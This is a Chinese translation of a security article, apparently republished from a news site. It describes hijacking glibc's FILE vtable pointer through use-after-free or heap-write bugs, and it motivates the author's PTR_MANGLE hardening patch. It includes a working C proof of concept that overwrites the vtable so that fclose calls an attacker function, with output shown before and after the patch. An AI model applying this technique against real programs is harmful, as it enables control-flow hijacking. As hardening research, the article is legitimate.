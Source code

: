 ```yaml
---
layout: post
title: "技术分享：利用FILE结构执行任意代码"
categories:
- 今日头条
tags:
---
```

翻译：Ox9A82

预估稿费：100RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

简介

当我们想要攻击一个进程时，一个很有趣的目标就是堆上的FILE结构，FILE结构被glibc中的输入输出流函数（fopen()，fread()，fclose()等）所使用。 大多数FILE的结构（在内部是_IO_FILE结构）是指向用于各种流和标志的内存缓冲区的指针。有趣的是，这个指针并不是完整的结构。当一个新的FILE结构被成功分配并且其指针从fopen()函数返回时，glibc实际上分配了一个名为_IO_FILE_plus的内部结构，它包含了_IO_FILE结构和一个指向_IO_jump_t结构的指针，而这个结构又包含了附加到FILE的所有函数的指针列表。这就是它的vtable，其作用和结构就像C++的虚函数表一样，任何一个与FILE有关的流函数调用都会使用这张表。所以在堆上，我们有如下图的结构：

![](http://p3.pstatp.com/large/110d00078ff98b3463e1)

对于use-after-free漏洞，堆溢出或者任意地址写漏洞，这个vtable指针是一个有趣的目标，很像可以在setjmp(),longjmp(),atexit()中找到的指针，可以被用来控制程序的执行流程。前一段时间，glibc引入了PTR_MANGLE/PTR_DEMANGLE来保护后面提到的这些函数，但是直到现在为止还没有以同样的方式保护FILE结构。

我希望能够改变这个状况，所以就引入了一个使用PTR_MANGLE的补丁来保护vtable指针。希望我没有忽略一些重要的东西，因为我真的很想看到这个补丁可以起到作用。其实，对FILE结构的利用要比对setjmp()和atexit()函数的利用更为常见 :)

演示demo

下面是一个在use-after-free漏洞中利用的演示demo

12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455#include <stdio.h>#include <stdlib.h>void pwn(void){ printf("Dave, my mind is going.\n"); fflush(stdout);}void * funcs[] = { NULL, // "extra word" NULL, // DUMMY exit, // finish NULL, // overflow NULL, // underflow NULL, // uflow NULL, // pbackfail NULL, // xsputn NULL, // xsgetn NULL, // seekoff NULL, // seekpos NULL, // setbuf NULL, // sync NULL, // doallocate NULL, // read NULL, // write NULL, // seek pwn, // close NULL, // stat NULL, // showmanyc NULL, // imbue};int main(int argc, char * argv[]){  FILE *fp; unsigned char *str; printf("sizeof(FILE): 0x%x\n", sizeof(FILE)); /* Allocate and free enough for a FILE plus a pointer. */ str = malloc(sizeof(FILE) + sizeof(void *)); printf("freeing %p\n", str); free(str); /* Open a file, observe it ended up at previous location. */ if (!(fp = fopen("/dev/null", "r"))) { perror("fopen"); return 1; } printf("FILE got %p\n", fp); printf("_IO_jump_t @ %p is 0x%08lx\n", str + sizeof(FILE), *(unsigned long*)(str + sizeof(FILE))); /* Overwrite vtable pointer. */ *(unsigned long*)(str + sizeof(FILE)) = (unsigned long)funcs; printf("_IO_jump_t @ %p now 0x%08lx\n", str + sizeof(FILE), *(unsigned long*)(str + sizeof(FILE))); /* Trigger call to pwn(). */ fclose(fp); return 0;}

在打补丁之前：

1234567$ ./minisizeof(FILE): 0x94freeing 0x9846008FILE got 0x9846008_IO_jump_t @ 0x984609c is 0xf7796aa0_IO_jump_t @ 0x984609c now 0x0804a060Dave, my mind is going.

在打补丁之后：

1234567$ ./minisizeof(FILE): 0x94freeing 0x9846008FILE got 0x9846008_IO_jump_t @ 0x984609c is 0x3a4125f8_IO_jump_t @ 0x984609c now 0x0804a060Segmentation fault

后记

一些聪明的读者可能会注意到，这个演示利用了glibc的另一个特性，就是它的malloc系统是不随机的，这允许攻击者确定各种结构在堆中相对于彼此的位置。我也很乐于看到它是固定的，但它需要更多的时间去学习。